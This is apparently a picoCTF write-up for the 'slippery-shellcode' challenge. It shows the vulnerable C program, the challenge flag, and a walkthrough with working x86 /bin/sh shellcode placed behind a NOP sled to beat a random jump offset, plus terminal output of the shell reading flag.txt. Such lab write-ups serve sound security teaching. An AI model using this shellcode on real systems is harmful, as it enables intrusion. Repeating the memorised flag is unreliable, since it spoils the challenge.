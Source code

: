 
# Binary Exploitation - slippery-shellcode (200 points)

## Challenge

*This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_0_7440dd178b8f0686410008ac1268d808 on the shell server. Source.*

![Challenge](../_images/binary_exploitation_slippery-shellcode_challenge.png)

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 512
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing from a random location now...");

  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

## Flag

picoCTF{sl1pp3ry_sh311c0d3_2dd645d1}

## Walkthrough

This challenge is the same that "Handy-shellcode" except that a random offset is added to your payload pointer:

```C
int offset = (rand() % 256) + 1;
((void (*)())(buf+offset))();
```

Hence, if we use the same shellcode as "handy-shellcode" we end with a segfault because the pointer to our function won't start at it's beginning, but somewhere random inside the shellcode:

```bash
m3oow@pico-2019-shell1:/problems/slippery-shellcode_0_7440dd178b8f0686410008ac1268d808$ (echo -en "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74"; cat -) | ./vuln
Enter your shellcode:

1�1�1�1�Phn/shh//bi��
                    ̀
Thanks! Executing from a random location now...

Segmentation fault (core dumped)
```

But we can use the NOP instruction so that even with an offset, the call to `buf+offset` will just "slip" to our shellcode:

```bash
m3oow@pico-2019-shell1:/problems/slippery-shellcode_0_7440dd178b8f0686410008ac1268d808$ (echo -en "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74"; cat -) | ./vuln
Enter your shellcode:

��������������������������������������������������������������������������������������������������������������������������1�1�1�1�Phn/shh//bi��
                                                                                                                                              ̀
Thanks! Executing from a random location now...
ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{sl1pp3ry_sh311c0d3_2dd645d1}
```
